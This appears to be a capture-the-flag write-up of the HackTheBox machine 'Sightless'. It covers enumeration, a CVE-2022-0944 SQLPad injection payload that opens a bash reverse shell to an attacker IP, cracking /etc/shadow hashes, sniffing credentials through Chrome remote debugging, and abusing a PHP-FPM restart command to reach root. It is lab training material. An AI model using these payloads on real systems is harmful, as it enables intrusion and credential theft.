

Follow along as I walk you through how an attacker can leverage a series of vulnerabilities to gain root (administrative) access for a compromised host by completing this exercise for the machine, Sightless on HackTheBox.

<!--more-->

## 1. Summary

{}
Sightless is a HackTheBox machine released on September 7, 2024. The machine features a pseudo company rendering various database and server management services. One of the services offered by the pseudo company is a web-based tool, SQLPad, to connect to SQL servers. Research on the tool reveals that versions prior to 6.10.1 contain a vulnerability that can be leveraged to gain the ability to execute commands remotely. Additional details can be found in <a href="https://nvd.nist.gov/vuln/detail/CVE-2022-0944">CVE-2022-0944</a>.

After the vulnerability is exploited, a configuration oversight on the machine allows a hacker to escape the container and gain a foothold directly on the host. Below, I demonstrate how exploiting one vulnerability after another led to access to the root account.

{}

## 2. Enumeration

```bash
# Workspace setup
target="sightless"
mkdir $target
touch $target/creds.txt
touch $target/computers.txt
target_ip="10.129.89.120"
```

### A. Network Enumeration

```bash
# nmap scan with version and script detection (-sV, -sC) on all ports (-p-)
sudo nmap -Pn -sV -sC -oA $target/nmap -p- $target_ip
```

I begin the assessment by running an `nmap` scan to identify open ports and their corresponding services.



The scan results reveal open ports: 21 (FTP), 22 (SSH), and 80 (HTTP).

### B. FTP Enumeration

I start by enumerating the FTP service to check for potential vulnerabilities. If an FTP service is misconfigured, any individual can connect to it using a password-less anonymous login.

```bash
ftp anonymous@$target_ip
```

The attempt fails, as it appears a TLS connection is required, which my client cannot provide.


From here, I move forward with my enumeration by entering the IP address into my browser to find any potential attack vectors on the HTTP service.

### C. Web Application Enumeration

Initially, the page fails to load because my system is trying to use public DNS servers to resolve the target's domain name. I resolve this by adding the target’s IP address and domain name to `/etc/hosts`, overriding public DNS lookups. After the addition and refreshing the page, the site now renders properly.

```bash
# Adding domain to /etc/hosts
target_domain="${target}.htb"
echo -e "${target_ip} ${target_domain}" | sudo tee -a /etc/hosts
```

I visit the site and view the different pages available. One of the pages links to an SQLPad application on a subdomain. I follow it, but it doesn’t load properly so I repeat my earlier steps and add it to `/etc/hosts`.

```bash
# Adding subdomain to /etc/hosts
target_subdomain="sqlpad.${target_domain}"
echo -e "${target_ip} ${target_subdomain}" | sudo tee -a /etc/hosts
```


When the page renders, there is a button on the left hand side and a collapsed menu on the right hand side. The collapse menu has an about page. Clicking on it reveals the application’s version number as version 6.10.0. Clicking on the button allows me to create a new database connection after providing the “Name” and “Driver” of a new connection. The name field takes any value while the Driver field is a dropdown menu with different types of databases. I note this as a possible attack vector and start researching publicly known vulnerabilities.

In my online research, I find a CVE published on NIST, [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944). The publication reveals that applications using SQLPad with versions prior to 6.10.1 are vulnerable to code injection through the “connection test” endpoint. The vulnerability leads to remote code execution when it is exploited.

## 3. Exploitation

I review the provided proof of concept and return to the application to replicate the exploit and test for the vulnerability. The proof of concept creates a file on the system using `exec()`. To gain access, I modify the payload to create a reverse shell.

```bash
# Payload to establish a reverse shell
{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.13/9000 0>&1"') }}
```

Before I test the connection, I start a netcat listener.

```bash
nc -nlvp 9000
```

I successfully establish a reverse shell and it appears that I am connected as root in sqlpad’s directory.


## 4. Initial Foothold

### A. Escaping the Container

Upon connecting as root, I suspect I might be inside a container rather than on the host directly. I don’t let this stop me and begin enumerating the host to find ways in which I can escape the container.

I check for sudo permissions using `sudo -l`, but it fails. I continue by checking `/etc/passwd` to uncover any non-standard users since they may provide privileges or sensitive information that will allow me to escape the container.


```bash
# Checking /etc/passwd for non-standard users
cat /etc/passwd
```


I identify a non-standard account, “michael”, which is a good lead. Next I check for environment variables that may contain sensitive information such as passwords using the `env` command. I find nothing valuable and move forward.

My next goal is finding high value files that are writable.

```bash
find /etc -writable -type f 2>/dev/null
```


I see that `/etc/shadow` is writable and contains two password hashes.


I copy both hashes and proceed to crack them. However, to do so, I need to determine the hashing algorithm.

I research which hashing algorithm prefixes its hash with `$6$` so I can use hashcat to crack it. I learn that `$6$` corresponds to sha512crypt and it is mode 1800 in hashcat.

```bash
# Using hashcat to crack the two hashes
hashcat -m 1800 michael.hash $rockyou

hashcat -m 1800 root.hash $rockyou
```


Armed with both passwords, I now feel confident that I can escape the container and connect directly to the host using one of the two credentials. I attempt to connect using Michael’s credentials first because I am confident that the root hash is a red herring. I successfully connect and proceed to capture the user flag.


```bash
cat /home/michael/user.txt
```


### B. Pivoting

I conduct some initial enumeration.

```bash
sudo -l
```


```bash
# Checking environment variables for sensitive information
env
```


```bash
# Using socket statistics to check for TCP listening ports without resolving service names
ss -tln
```


I see nothing out of the ordinary except some listening ports in the higher ranges. While this is not uncommon with Windows machines, it is with Linux machines. At this point, I feel like it might be a good thing to automate the remaining enumeration steps to pick up my pacing. For this, I turn to linpeas, a popular tool used to automate surface level enumeration. I get a copy of linpeas and then upload it onto the target host.

```bash
# Downloading a copy of linpeas
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250126-41ed0f6a/linpeas.sh

# Serving linpeas using an HTTP server
python3 -m http.server
```

```bash
# Downloading a copy of linpeas to the target machine
wget http://10.10.14.155:8000/linpeas.sh

# Making linpeas executable
chmod +x linpeas.sh

# Running linpeas
./linpeas.sh
```

One of the results from linpeas is highlighted with the 95% PE (privilege escalation vector). The user, john is using Chrome’s Remote Debugging on port 0.


Unfamiliar with the feature, I read Google Chrome’s documentation about [remote debugging](https://developer.chrome.com/docs/devtools/remote-debugging/local-server). I learn developers use it to test their web applications and that it could be exploited.

Another interesting result is a subdomain, admin.sightless.htb on port 8080.


I add admin.sightless.htb to `/etc/host`, but it doesn’t render. There’s a possibility that it doesn’t take external connections. So I set up a tunnel and visit 127.0.0.1:8080

```bash
ssh -L 8080:127.0.0.1:8080 michael@10.129.89.120
```

It opens up a login form. The root credentials found earlier is an option, but those credentials are most likely for logging into the container for SQLPad. Again, like in Nibbles, I will avoid rushing into a brute force attack. I believe that if I wanted to login, I would need to explore the attack vector found by linpeas.


After I finish reading the documation on how to configure remote debugging on Chrome, I proceed to install the browser and pull up the configuration window. I set up remote debugging to listen on all the high numbered ports found earlier since port 0 does not exist and john can be using any port. I know my best shot at finding my next attack vector is to monitor all of them.


I terminate my current tunnel and create a tunnel for all high numbered ports.

```bash
ssh -L 8080:127.0.0.1:8080 -L 34367:127.0.0.1:34367 -L 33060:127.0.0.1:33060 -L 45569:127.0.0.1:45569 -L 34369:127.0.0.1:34369  michael@10.129.89.120
```

After some time, some things flash on the screen. It happens fairly quickly and quite frequently. I open snipping tool and get ready to capture whatever it is. I see that the user, john is logging in with the admin credentials.


I copy the credentials down and use them to log into the admin panel.

## 5. Privilege Escalation

I successfully log in and immediately begin exploiting the application. I find an interesting service, PHP-FPM. PHP-FPM is a process manager that allows a site using it to handle greater volumes of web traffic. While, that may not be of interest to most individuals, the service itself allows administrators to control it through the admin portal. This includes stopping and starting PHP-FPM. By seeing that PHP-FPM can be started and stopped through the panel and knowing that the status of a service can only be changed using sudo, I can infer that this function is configured with elevated privileges. In addition, I realize I can create a new PHP-FPM service with a custom command that runs when the service restarts. With this feature, I know I can hijack the service to create a copy of the root flag and make it viewable by non-root accounts.

{}

### Step 1

1. Click on PHP
2. Click on PHP-FPM versions
3. Click on Create New PHP Version
4. Provide a value for the Name field
5. Add the copy command to php-fpm restart command: `cp /root/root.txt /tmp/root.txt`
6. Save


### Step 2

1. Click on System
2. Click on Settings
3. Click on php-fpm
4. Click Disable
5. Click Save. Pause a minute or two to allow service to stop before enabling
6. Click Continue
7. Click Enable
8. Click Save
9. Click Continue


{}

After I restart the service through the admin panel, I verify that the root flag copied into `/tmp` folder. I see that the flag still need it’s permission changed to make it viewable by non-root accounts so I repeat my earlier steps, but change the command to `chmod 644 /tmp/root.txt`.

```bash
ls -l /tmp
```


```bash
# Verifying permissions changed
ls -l /tmp/root.txt
```


Using `cat` to view the contents of root.txt.


## 6. Conclusion

By engaging in this challenge, I demonstrate how an attacker can exploit a series of vulnerabilities to gain escalating levels of access. Beginning with a vulnerability in SQLPad, I was able to establish an initial foothold. From there, I exploited a configuration oversight within the container to escalate privileges to the host and eventually to root. Throughout this process, the key techniques included leveraging known CVEs, thorough enumerating of systems and chaining exploitations including cracking password hashes.


